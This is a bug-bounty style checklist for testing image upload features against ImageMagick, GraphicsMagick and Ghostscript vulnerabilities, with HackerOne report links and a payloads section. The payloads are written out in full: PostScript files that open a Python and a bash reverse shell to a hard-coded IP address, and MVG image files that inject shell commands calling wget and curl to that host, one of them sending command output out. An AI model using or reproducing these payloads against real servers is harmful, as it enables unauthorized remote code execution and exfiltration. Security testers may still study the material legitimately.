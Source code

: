 # Image Magic / Graphics Magic vulnerabilities

- [ ] Anywhere where we can upload a picture, check for Image Tragic. Especially in profile picture uploads.
- [ ] Check if we are able to edit an uploaded image. Does the request contain arguments? If the backend is using GraphicsMagic, we could inject commands.
  - https://hackerone.com/reports/212696

- [ ] If there is no validation on the file type and Ghostscript is enabled we could get RCE
  - https://hackerone.com/reports/422944

- [ ] Check if we can disclose server memory through image magic (CVE-2017-15277)
  - https://hackerone.com/reports/302885
  - https://hackerone.com/reports/251732
  - https://hackerone.com/reports/274594
  - https://hackerone.com/reports/315256
  - 
  
  
## Payloads

 - https://hackerone.com/reports/422944
 
```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("167.71.9.74",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') currentdevice putdeviceprops
```

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%bash -c 'bash -i >& /dev/tcp/167.71.9.74/8080 0>&1') currentdevice putdeviceprops
```


- https://hackerone.com/reports/135072

x.gif
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`wget -O- 167.71.9.74:1337 > /dev/null`'
pop graphic-context
```

- https://web.archive.org/web/20190104220048/https://nahamsec.com/exploiting-imagemagick-on-yahoo/

x.png
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`id | curl http://167.71.9.74:1337/ -d @- > /dev/null`'
pop graphic-context
```
